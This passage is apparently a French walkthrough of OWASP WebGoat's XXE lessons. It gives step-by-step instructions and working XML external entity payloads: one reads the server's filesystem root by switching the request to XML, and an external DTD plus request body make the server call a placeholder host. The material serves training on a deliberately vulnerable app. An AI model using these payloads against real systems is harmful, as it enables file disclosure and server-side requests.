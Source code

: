 4.  
![Hint](images/wiki_owasp_webgoat/hint.png) Take a look at the content type  
![Hint](images/wiki_owasp_webgoat/hint.png) Does the endpoint only accept json messages?

*   Ouvrir les _Outils de développements_ du navigateur, et aller dans l'onglet _Réseau_.
*   Sur WebGoat, poster un commentaire.
*   Repérer la requête vers `content-type` dans l'onglet _Réseau_ et cliquer sur _Modifier et renvoyer_.
*   Modifier le corps de la requête en : `<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment><text>&xxe;</text></comment>`, et modifier l'en-tête `Content-Type: application/json` en `Content-Type: application/xml`.

![XXE 4](images/wiki_owasp_webgoat/xxe-4.png)

6. 
Même si ce n'est pas un challenge, une petite erreur s'est glissée dans la leçon, faire attention à rentrer les bonnes URL pour pouvoir effectuer le test. 
  
**attack.dtd**  
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!ENTITY ping SYSTEM 'http://host:port/landing?test=HelloWorld' >
```  
  
**Request Body**  
```xml
<?xml version="1.0"?>  
<!DOCTYPE root [  
<!ENTITY % remote SYSTEM "http://host:port/files/username/attack.dtd" >  
%remote;  
]>  
<comment>  
<text>test&ping;</text>  
</comment>  
```

